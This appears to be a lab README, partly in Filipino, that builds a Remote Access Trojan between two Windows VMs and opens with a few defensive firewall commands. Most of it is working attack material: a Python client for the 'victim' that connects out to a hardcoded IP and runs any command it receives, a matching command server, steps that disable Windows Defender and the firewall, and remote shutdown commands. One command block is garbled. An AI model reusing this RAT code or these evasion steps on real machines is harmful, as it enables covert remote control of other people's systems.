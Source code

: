 ### PowerShell
```bash
Get-NetTCPConnection -RemoteAddress 10.28.0.149 | Select-Object OwningProcess, State # Find which program is connecting to 10.28.0.149
Get-Process -Id <OwningProcess> | Select-Object Name, Path
```


### Block the Attacker’s IP
```bash
# Block all outbound traffic to the attacker
New-NetFirewallRule -DisplayName "Block Attacker" -Direction Outbound -RemoteAddress 10.28.0.149 -Action Block
```


---
### Remote Access Trojan (RAT) 

Network Testing - Two machines (or VMs) on the same network
- WINServer22-1 : Server
- WINServer22-2 : Client / Victim



Find the **server's local IP** (ipconfig on Windows / ifconfig on Linux).
- Replace "attacker_ip_here" in client.py with the server’s IP.
- Attacker IP: 208.8.8.140 (IPv4 Address)
port 5555 - firewall port



Disable the Windows Security Threat (only if enabled):

```bash
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
```


```
#Enable
Set-MpPreference -DisableRealtimeMonitoring $false
```

Disable the Firewall of the Server
```bash
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Ping the server IP (from client's terminal)
```bash
# Command Prompt
ping 208.8.8.140
```


Enable telnet in Windows Powershell
```bash
Enable-WindowsOptionalFeature -Online -FeatureName "TelnetClient"
```


Check if the port (5555) is listening:
```bash
Check if the port (5555) is listening:
```



## `server.py`
- This listens for incoming connections on port `5555`
- Firewall must allow inbound connections on port `5555`
  
Example PowerShell command to allow the port:
```bash
New-NetFirewallRule -DisplayName "PythonTest" -Direction Inbound -LocalPort 5555 -Protocol TCP -Action Allow
```

```python
# server.py
# server.py - Run on the ADMIN machine
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 5555))  # Listen on all network interfaces
    s.listen(1)
    print("[*] Waiting for connection...")
    
    conn, addr = s.accept()
    print(f"[+] Connected to {addr}")
    
    try:
        while True:
            cmd = input("admin$ ")
            if cmd.lower() == 'exit':
                conn.send(cmd.encode())
                break
            conn.send(cmd.encode())
            print(conn.recv(4096).decode())  # Larger buffer for big outputs
    finally:
        conn.close()
        s.close()

if __name__ == "__main__":
    start_server()

```

## `client.py `
- The client initiates the connection to the `server’s IP` (208.8.8.140)
- No need to disable the client’s firewall (outbound connections are usually allowed by default).


```python
# client.py

# client.py - Run on the TARGET machine
import socket
import subprocess

def connect_to_server(server_ip, port):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server_ip, port))
            print(f"[*] Connected to {server_ip}")
            
            while True:
                command = s.recv(4096).decode().strip()
                if command.lower() == 'exit':
                    s.close()
                    break
                
                try:
                    output = subprocess.getoutput(command)
                    s.send(output.encode())
                except Exception as e:
                    s.send(f"Error: {str(e)}".encode())
                    
        except (ConnectionError, socket.error):
            print("[!] Connection lost. Reconnecting...")
            continue

if __name__ == "__main__":
    SERVER_IP = "208.8.8.140"  # Change to the server's real IP
    PORT = 5555
    connect_to_server(SERVER_IP, PORT)

```




---
### WinError 10061

Kapag ganiyan yung error, check yung IP. Baka mali/mismatch lang


---
Kapag gusto ko i-shutdown device ni client/victim:

```bash
# Restart instead of shutdown
conn.send(b"shutdown /r /t 30")

# Abort shutdown
conn.send(b"shutdown /a")
```






